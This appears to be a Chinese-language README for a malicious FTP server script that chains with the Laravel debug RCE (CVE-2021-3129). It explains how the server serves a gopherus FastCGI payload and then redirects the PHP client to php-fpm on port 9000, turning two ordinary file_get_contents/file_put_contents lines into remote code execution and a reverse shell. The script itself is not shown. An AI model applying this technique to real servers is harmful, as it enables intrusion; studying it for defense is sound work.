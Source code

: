 # evil_ftp


本脚本配合CVE-2021-3129 laravel debug rce食用更佳

运行上述脚本，一个恶意ftp服务就起来了(注释已经很详细了）

这个脚本做的事情很简单，就是当客户端第一次连接的时候返回我们预设的payload

当客户端第二次连接的时候将客户端的连接重定向到127.0.0.1:9000,也就是我们的php-fpm服务的端口

ps:其中ftp服务端返回的状态码是比较重要的，如果状态码不对是无法连接成功的，但是这些状态码也不是特别严格
贴一篇参考文章：
https://blog.csdn.net/qq981378640/article/details/51254177

**使用该脚本需要自己修改对应的ip:port**

脚本中的payload是使用的gopherus生成的攻击fastcgi的payload


有了上面的ftp server,下面的两行看似无懈可击的代码也就可以被RCE了：

`$a = file_get_contents("ftp://aaa@172.16.230.146:23/123");`
`file_put_contents("ftp://aaa@172.16.230.146:23/123", $a);`

反弹回的shell:

![](https://mmbiz.qpic.cn/mmbiz_jpg/1YLJUhm0ZtlwAYYnTsn47LmZt7GOXmwgGcicmWdouVUM6a04jjUAapuCLDeW7JEINazFGL04icicXXaZRBYyuy63A/640?wx_fmt=jpeg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

关于laravle debug rce的复现在这里：

https://mp.weixin.qq.com/s/UPf62W0LoOGsFAdH4uqBcQ
